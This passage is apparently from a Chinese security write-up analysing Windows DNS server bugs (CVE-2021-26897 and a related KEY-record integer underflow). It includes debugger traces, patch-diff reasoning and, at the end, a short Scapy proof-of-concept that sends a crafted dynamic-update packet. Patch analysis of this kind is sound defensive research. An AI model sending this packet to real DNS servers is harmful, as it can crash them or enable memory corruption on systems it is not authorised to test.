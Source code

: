如下所示，在调用 Dns_SecurityKeyToBase64String 函数时，第二个参数为 0xffb9，经过 Base64 编码后的数据长度为 0x154f8。查看上下文可以发现（上图所示），在向缓冲区写入的每一步几乎都用了 end_addr(用户可用的最大长度) 作为限制，唯独在 Dns_SecurityKeyToBase64String 函数的调用中没有，这可能会造成隐患。

```
0:011&gt; g
Breakpoint 1 hit
dns!Dns_SecurityKeyToBase64String:
00007ff7`50d02bd4 48895c2408      mov     qword ptr [rsp+8],rbx ss:000000bc`b867f3b0=000000bcb867f430
0:011&gt; r rdx
rdx=000000000000ffb9
0:011&gt; ?ffb9/3*4
Evaluate expression: 87284 = 00000000`000154f4
0:011&gt; db r8 l20
00000271`34c16255  00 c0 c0 c0 c0 c0 c0 c0-c0 c0 c0 c0 c0 c0 c0 c0  ................
00000271`34c16265  c0 c0 c0 c0 c0 c0 c0 c0-c0 c0 c0 c0 c0 c0 c0 c0  ................

0:011&gt; gu
dns!SigFileWrite+0x1f2:
00007ff7`50cc7f02 4c8bc8          mov     r9,rax

0:011&gt; db 271`34c16255+154f4 l20    // 写入了 0x154f8 字节数据
00000271`34c2b749  41 41 41 3d c0 c0 c0 c0-c0 c0 c0 c0 c0 c0 c0 c0  AAA=............
00000271`34c2b759  c0 c0 c0 c0 c0 c0 c0 c0-c0 c0 c0 c0 c0 c0 c0 c0  ................
```

由于向 zoneTraverseAndWriteToFile 函数中传入的第一个参数是不变的，因而会一直向该缓冲区中写入数据。虽然在 RR_WriteToFile 函数和 SigFileWrite 函数中有一些判断，但仍未考虑数据 Base64 编码后的长度，因而在多次循环写入的时候，正好在 Dns_SecurityKeyToBase64String 函数的执行过程中触发 OOB 写操作。

**补丁分析**<br>
更新后的 DNS 在 SigFileWrite 函数中调用 Dns_SecurityKeyToBase64String 函数前会进行以下判断。会考虑当前缓冲区的剩余空间是否可以容纳 Base64 编码后的 Signature 数据。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018d038b3883054f3d.png)



## 补丁对比分析

以下为 3 月更新内发生变动的函数列表，包括前面已经分析过的TxtFileWrite 函数和 SigFileWrite 函数。

[![](https://p4.ssl.qhimg.com/t0196b73402504ac212.png)](https://p4.ssl.qhimg.com/t0196b73402504ac212.png)
- **KEY 记录问题**
类似地，在 KeyFileWrite 函数中也加入了 Base64 编码预检查（粉框对应）。但不是这个的问题，补丁前已经有 a3 – (signed __int64)a2 &lt; (signed int)(2 * v3) 这个判断了，可以阻断 CVE-2021-26897 式触发。真正的原因我用蓝框圈起来了，v3 来自 Data Length – 4，而且它是无符号 int 型，如果 Data Length 小于 4，会产生整数溢出。而它又作为 Dns_SecurityKeyToBase64String 函数的第二个参数，该函数指明待编码数据长度，4 个字节的大整数，肯定会溢出的啦。

[![](https://p3.ssl.qhimg.com/t017442562f15174e12.png)](https://p3.ssl.qhimg.com/t017442562f15174e12.png)

构造 POC 如下，触发场景见下图：

```
query = DNSQR(qname='mal', qtype='SOA')
    RRKEY = DNSRR(rrname=str(RandString(8))+'.mal',type='KEY',rdlen=0 ,rdata='\x00'*0xff)
    packet = IP(dst=ip)/UDP()/DNS(id=random.randint(0,65535),opcode=5,qd=query,ns=RRKEY)
```
